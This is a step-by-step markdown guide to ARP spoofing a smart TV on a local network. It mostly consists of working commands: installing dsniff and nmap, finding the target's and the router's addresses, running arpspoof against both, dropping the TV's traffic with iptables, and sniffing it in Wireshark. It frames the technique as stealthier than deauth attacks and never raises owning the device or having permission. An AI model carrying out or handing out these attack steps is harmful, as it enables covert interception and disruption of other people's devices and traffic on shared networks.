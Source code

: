 ## **How ARP Spoofing Works**
- ARP (Address Resolution Protocol) resolves IP addresses to MAC addresses on a local network.
- By sending fake ARP responses, you trick the TV into thinking the laptop is the router, or vice versa, allowing you to:
1. Intercept traffic.
2. Drop traffic to disconnect the device.
[[ARP spoofing]]

---

## **Requirements**
1. **Laptop** with root access.
2. **Tools**:
- `nmap` to find out IP adresses
- `arpspoof` (from the `dsniff` package).
- `iptables` to block traffic.

---

## **Step-by-Step Guide**

### **1. Install Necessary Tools**
First, install the tools you'll need:
```bash
sudo apt update
sudo apt install dsniff nmap
```

---
(Optional)
### **2. Enable IP Forwarding **
If you want to intercept traffic instead of just disconnecting the TV, enable IP forwarding:
```bash
sudo sysctl -w net.ipv4.ip_forward=1
```
---

### **3. Get Network Information**
Find the IP and MAC addresses of the target device (Smart TV) and router.

1. Get the router’s IP:
```bash
ip route
```
Example output:
```
default via 192.168.0.1 dev wlan0
```
- Here, `192.168.0.1` is the router's IP.

2. Check connected devices on the network:
```bash
arp -a
```
Example output:
```
? (192.168.0.15) at 00:1A:2B:3C:4D:5E [ether] on wlan0
? (192.168.0.1) at 11:22:33:44:55:66 [ether] on wlan0
```
- `192.168.0.15` and `00:1A:2B:3C:4D:5E` are the TV’s IP and MAC.
- `192.168.0.1` and `11:22:33:44:55:66` are the router’s IP and MAC.

---

### **4. Perform ARP Spoofing**
Start spoofing the ARP tables of the Smart TV and router.

1. ARP spoof the Smart TV:
```bash
sudo arpspoof -i wlan0 -t 192.168.0.15 192.168.0.1
```
- `-i wlan0`: Your network interface.
- `-t 192.168.0.15`: Target (Smart TV’s IP).
- `192.168.0.1`: Router’s IP.

2. ARP spoof the router (optional, for interception):
In another terminal, run:
```bash
sudo arpspoof -i wlan0 -t 192.168.0.1 192.168.0.15
```
This tells the router the laptop is the TV.

---

### **5. Disconnect the TV**
To stop traffic from reaching the TV, block it using `iptables`:

1. Drop all packets from the Smart TV:
```bash
sudo iptables -A FORWARD -s 192.168.0.15 -j DROP
```

2. Drop all packets to the Smart TV:
```bash
sudo iptables -A FORWARD -d 192.168.0.15 -j DROP
```

This effectively disconnects the TV from the network.

---

### **6. Monitor Traffic (Optional)**
If you want to monitor intercepted traffic, use Wireshark:
```bash
sudo apt install wireshark
sudo wireshark
```
Filter by the TV’s IP:
```
ip.addr == 192.168.0.15
```

---

### **7. Stop the Attack**
When you're done:
1. Flush `iptables` rules:
```bash
sudo iptables -F
```

2. Stop `arpspoof` by pressing **Ctrl+C** in the terminal.

3. Disable IP forwarding:
```bash
sudo sysctl -w net.ipv4.ip_forward=0
```

---
## **When Does ARP Spoofing Work Better?**
- **Stealthier**: ARP spoofing is less noticeable than deauth attacks.
- **Traffic Interception**: You can monitor and manipulate traffic, unlike deauth attacks, which only disrupt connectivity.
- **Works on Wired Networks**: Deauth attacks only work on Wi-Fi, but ARP spoofing works on both wired and wireless networks.
---
